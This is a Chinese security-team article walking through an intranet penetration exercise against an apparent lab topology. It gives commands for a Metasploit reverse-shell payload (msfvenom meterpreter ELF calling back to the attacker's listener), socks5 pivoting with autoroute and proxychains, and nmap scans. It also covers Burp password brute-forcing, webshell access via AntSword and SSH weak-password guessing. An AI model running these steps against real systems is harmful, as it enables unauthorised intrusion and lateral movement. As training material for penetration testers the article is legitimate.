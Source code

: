 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/vxRDyVpTliqrLkWzZ4OT4Q)

**声明：**公众号文章来自团队核心成员和知识星球成员，少部分文章经过原作者授权和其它公众号白名单转载。未经授权，严禁转载，如需转载，请联系开白！

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者及本公众号无关！

**START**

0x01 **前言**

本‍‍‍‍次所使用的攻击机为 kali linux 系统，攻击过程中涉及到的工具主要有：中国菜刀 / 中国蚂剑，burpsuite，metasploit，MobaXterm，一句话木马，proxychains，nmap 脚本等。攻击的拓扑结构如下图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZ89j9jRBrUpg4cH9WRQASsbuLH32nJaFcmvl9pNuyK1cCVN3mUkvtTg/640?wx_fmt=png)

0x02 ****反弹 Payload****

攻击机进行监听设置 (注意：监听主机设置需要与生成的 payload 保持一致)：

```
>>> use exploit/multi/handler
>>> set payloads linux/x64/meterpreter_reverse_tcp
>>> set LHOST 192.168.124.15        #监听主机ip地址
>>> set PORT 9999                  #监听主机端口号
>>> exploit -j
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqic15tmJrSricWiah425ibyUH7iacnV3Naa9AoLGGyNpMVGOdXukaOxiaOB8g/640?wx_fmt=png)

生成反弹需要的 payload 文件：

```
>>> msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=IP LPORT =PORT -f elf > shell.elf
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqhruVIicIDvpV2BPibxO8U59wDOujK3ZWT9e801Erw24XI9n0VbtHaiarw/640?wx_fmt=png)

将生成的文件上传到目标主机，并更改 payload 可执行权限，并执行。

```
>>> chmod 777 shell.elf
>>> ./shell.elf
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqUgJdvhLf3hbGEBCfh6qjl4Kq7qM6KpGz0rkHk6qrjXwFFVZyutK8TQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqThDqnJYK2b6KIpDb8FsXNCibsKXniaiaqgfMMBo77AWJ0icn1lia7RibDuqw/640?wx_fmt=png)

在攻击端，监听的主机收到目标主机反弹的 shell 权限，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqEPl7OGjhmyQEkNnrw78Twr3Yq4gQ5pW8exU200uHCQMhb3MxiaJyEKQ/640?wx_fmt=png)

0x03 添加 socks5 代理

此时为了能够访问到内网，需要进行添加代理操作。查看当前路由有一个内网段 ip 地址段位 172.17.0.0/24。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqicicpSdZwvbE0e041EzHAibfVqAnF537SvOpeQdL8IT7iaYdO7DmTvINBQ/640?wx_fmt=png)

执行指令添加路由操作。

```
>>> run autoroute -s 172.17.0.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIq1Wia0ThVbCvsjU9NOXzVasCQqhhVm9JQHENtAP0cPG063JyiaCfALXNg/640?wx_fmt=png)

添加 socks5 代理：

```
>>> use auxiliary/server/socks5
>>> run
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqB6HLSN1O95Yaq5b0ta4CPDQ1kza6YByrFD02qucd93YglN4ibbl5UZg/640?wx_fmt=png)

此处应用 proxychains 工具，进行内网探测，使用编辑器在文件 /etc/proxychains.conf 的最后一行加入 socks5 代理的配置信息。

| 

--- snippet ---

[ProxyList]

# add proxy here ...

# meanwile

# defaults set to "tor"

socks5  127.0.0.1 1080

 |

0x04 ******内网主机端口探测******

通过执行代理工具 proxychains，内网 web 服务进行探测，可以发现主机 ip 地址为 172.17.0.4。执行指令如下所示：

```
>>> Proxychains nmap 172.17.0.0/24 -sV  -sT  -Pn  -T 4 -p80
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqX0DE7o8oPAiaic5BASDdazYmtFCk7ljjTJr4G0uSPDRE92a6PJB9FPTQ/640?wx_fmt=png)

0x05 ********内网 web 暴力破解********

此时通过浏览器是不能访问到内网服务器，需要在浏览器配置代理进行访问，配置代理类型选择 socks5，本地端口为 1080。配置好以后，就能通过代理访问内网主机的 web 应用了。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqh0ZibsFafvPMz9O7Nicntdjocdyzq3lt0w78cH1HEk9ibrMca5icxnibZTA/640?wx_fmt=png)

通过浏览页面可发现，为一个文件上传页面，但是上传需要输入口令，方可操作成功。此时考虑可通过 burpsuite 进行拦截后，口令破解。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIq68ILfPrhVE2sAyLGjaicCfmbQic61DLHRlH6ERQpBDcG35Fz0jpOgZrQ/640?wx_fmt=png)

打开 burpsuite 后，需要添加代理，这样才能将拦截到的数据正确发送到目标服务器，配置过程如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqJPfaVkgxGXUvks2os5SFgEjXTjOpqheUd6dzEd6Ov41BJPLVYnV2iaw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqiajEYTGUUldgEtdWIrAOCLOy5hVZAcfSkUHVkTz1hLl15eRicBO2RoaA/640?wx_fmt=png)

对拦截的数据更改口令字段，添加常用字典，此处用的字典为：top1000.txt。查看破解成功字段的真实口令为 password。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqopoGAsSZwf4VM1IDBw7rc4z1wqGOPYZx7eCnM2W55QLU84XRibHbqTA/640?wx_fmt=png)

0x06 **内网上传 webshell**

常用的菜刀，Cknife 等工具并不存在代理功能，此处使用中国蚁剑工具进行连接，配置蚁剑代理如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqCgs66Z7VicsYdbeFxAhruIhSyibnRB6uCl96uQlrP3CQsibqpib4TJ4faw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqBiaogJtM7nMUp7WjwQcGBOtS7bVCMEL8JSoAIMaoxouHibicEq45iaU5jg/640?wx_fmt=png)

成功连接到内网的 shell 后，访问目标系统不同目录

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqTX6EicYCSwnS7UIxwiaibicgzYY9a1zH7fMFrbcnaLooXkoicqwic5xr6EpQ/640?wx_fmt=png)

0x07 远程连接内网主机 SSH 服务

对内网的 22 端口进行探测，发现主机 172.17.0.8 开放 22 端口，并对该内网主机进行 ssh 弱口令猜解。

```
>>> proxychains nmap -sV -t -Pn -p22 127.17.0.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIq4fC4WECUg9D6jiaEPjLc7BkyL2hYKtPorUib9XQiaSKXuyRN340UwztKQ/640?wx_fmt=png)

通过第三方工具 MobaXterm 添加代理后，远程连接到内网主机，具体操作过程如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqibWcju593AiaDyMFRx0Jku0HWwAHFkLibsluh1BclJQMbJ4cIufmPeichg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqYLicbNVyu6leD1UA3ANwFRhDmIrh1LB4RyRBvg8gomibMBjSFcWDQoAg/640?wx_fmt=png)

- 往期推荐 -

  

[内网渗透 - 代理篇（一）](http://mp.weixin.qq.com/s?__biz=Mzg4MzA4Nzg4Ng==&mid=2247485966&idx=1&sn=db3971fab27c17cc324af10b204b0a4d&chksm=cf4d856ff83a0c79157ab92ab94ac66e1d6721f8c2f0ca66c54a2d0945745f3c7852a5c4b862&scene=21#wechat_redirect)  

  

  

  

  

**END**

长按识别二维码

关注我们

![](https://mmbiz.qpic.cn/mmbiz_png/DcuW4enyAcYtpmclsSaYgTDJDzLYIRBml4ZqUCsAOcEoXiblxZtIlficXr3rGzJgCR53cGqKhXOC6IYdByBg5thw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/lFOEJLHA9qnnftWVibfuuuR9VgkUzicFIuAnHGSvUuSic72CznRl6ficDnauPPh726AibVVK9NwBQC8EXTC2HEbzEIg/640?wx_fmt=jpeg)

贝塔安全实验室 发起了一个读者讨论 欢迎大家一起讨论留言呕！ 精选讨论内容